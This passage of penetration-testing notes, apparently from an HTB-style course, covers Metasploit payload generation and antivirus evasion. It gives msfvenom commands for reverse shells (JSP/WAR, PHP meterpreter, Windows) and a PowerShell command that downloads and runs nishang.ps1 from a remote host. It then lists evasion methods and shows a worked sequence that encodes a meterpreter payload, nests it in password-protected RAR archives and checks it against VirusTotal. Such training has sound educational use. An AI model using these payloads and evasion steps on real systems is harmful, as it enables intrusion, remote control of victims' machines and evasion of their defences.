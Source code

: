 |    msfvenom -p   java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war >   shell.war                                                                                                  |    WAR Shell                                                   |
|    msfvenom -p   php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw  >  shell.php   cat shell.php | pbcopy && echo '?php ' | tr -d '\n'    shell.php && pbpaste  shell.php    |    Php Meterpreter Shell                                       |
|    msfvenom -p   php/reverse_php LHOST=IP LPORT=PORT -f raw  >  phpreverseshell.php                                                                                                   |    Php Reverse Shell                                           |
|    msfvenom -a x86   --platform Windows -p windows/exec CMD="powershell \\"IEX(New-Object   Net.webClient).downloadString('http://IP/nishang.ps1')\""   -f python                        |    Windows Exec Nishang Powershell in   python   |
|    msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT   -f c -e x86/shikata_ga_nai -b "\x04\xA0"                                                            |    Bad characters shikata_ga_nai                               |
|    msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT   -f c -e x86/fnstenv_mov -b "\x04\xA0"                                                               |    Bad characters fnstenv_mov                                  |


## **Evasion Techniques**

1. **Signature-Based Evasion**: Most anti-virus software relies on signature-based detection, which involves matching known patterns of malicious code. Evasion techniques aim to bypass these signatures to avoid detection.
2. **Payload Encoding**: Encoding payloads using various encoding schemes with multiple iterations is a common evasion method. However, this is not always sufficient to bypass all anti-virus products.
3. **Communication Channel**: Establishing a communication channel between the attacker and the victim can raise alarms with intrusion detection and prevention systems (IDS/IPS). This method may be detected due to suspicious network activity.
4. **AES-Encrypted Communication**: With tools like MSF6, attackers can tunnel AES-encrypted communication from Meterpreter shells back to the attacker's host, effectively encrypting the traffic and evading network-based IDS/IPS.
5. **IP Address Filtering**: Some strict network rulesets may flag connections based on the sender's IP address. To evade this, attackers may try to find services that are allowed through the network's filters.
6. **DNS Exfiltration**: In cases like the Equifax hack of 2017, attackers abused vulnerabilities to access critical data servers and used DNS exfiltration techniques to slowly transfer data without detection for an extended period.
7. **Payload Fingerprinting**: Anti-virus software can detect payloads by their signature, and even tools like msfconsole may have their code and files added to signature databases. This can result in the immediate blocking of default payloads.

`XeroCyb3r@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5`

{% highlight bash %}
XeroCyb3r@htb[/htb]$ rar a ~/test.rar -p ~/test.js
XeroCyb3r@htb[/htb]$ mv test.rar test
XeroCyb3r@htb[/htb]$ rar a test2.rar -p test
XeroCyb3r@htb[/htb]$ mv test2.rar test2
{% endhighlight %}

`XeroCyb3r@htb[/htb]$ msf-virustotal -k <API key> -f test2`

## Packers

The term Packer refers to the result of an executable compression process where the payload is packed together with an executable program and with the decompression code in one single file.
